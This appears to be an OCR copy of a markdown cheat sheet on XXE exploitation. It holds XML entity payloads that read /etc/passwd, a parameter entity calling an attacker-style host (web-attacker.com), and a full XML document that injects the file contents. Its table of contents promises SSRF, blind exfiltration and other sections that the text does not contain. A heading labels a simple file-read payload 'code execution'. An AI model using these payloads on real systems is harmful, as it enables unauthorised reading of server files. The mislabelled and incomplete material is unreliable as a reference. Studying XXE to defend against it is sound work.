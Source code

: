 # XXE exploitation

## Summary
* [XML custom entities](#xml-custom-entities)
* [XML external entities](#xml-external-entities)
* [Types of XXE attacks](#types-of-xxe-attacks)
    * [Exploiting XXE to retrieve files](#exploiting-xxe-to-retrieve-files)
    * [Exploiting XXE to perform SSRF attacks](#exploiting-xxe-to-perform-ssrf-attacks)
    * [Exploiting blind XXE exfiltrate data out-of-band](#exploiting-blind-xxe-exfiltrate-data-out-of-band)
    * [Exploiting blind XXE with external DTD](#exploiting-blind-xxe-to-exfiltrate-data-out-of-band-using-a-malicious-external-dtd)
    * [Exploiting blind XXE via error messages](#exploiting-blind-xxe-to-retrieve-data-via-erro-messages-using-a-malicious-external-dtd)
    * [Exploiting blind XXE by repurposing a local DTD](#exploiting-blind-xxe-by-repurposing-a-local-dtd)
* [Finding hidden attack surface](#finding-hidden-attack-surface-for-xxe-injection)
    * [Exploiting XXE with XInclude to retrieve files](#exploiting-xxe-with-XInclude-to-retrieve-files)
    * [Exploiting XXE via image file upload](#exploiting-xxe-via-image-file-upload)
    * [XXE attacks via modified content type](#xxe-attacks-via-modified-content-type)

## XML CUSTOM ENTITIES
XML allows custom entities to be defined within the DTD
```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" >]>
<!DOCTYPE foo [ <!ENTITY % myentity "my entity value" >]>
```

## XML EXTERNAL ENTITIES
XML allows custom entities
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://example.com" >]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" >]>
```
# regular entities are references as &ext;
XML parameter entities
```
<!DOCTYPE foo [ <!ENTITY % myentity "my entity value" >]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
#parameter entities are referenced as %myentity;
```

## XML CODE EXECUTION
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>comments</com>
</comment>
```

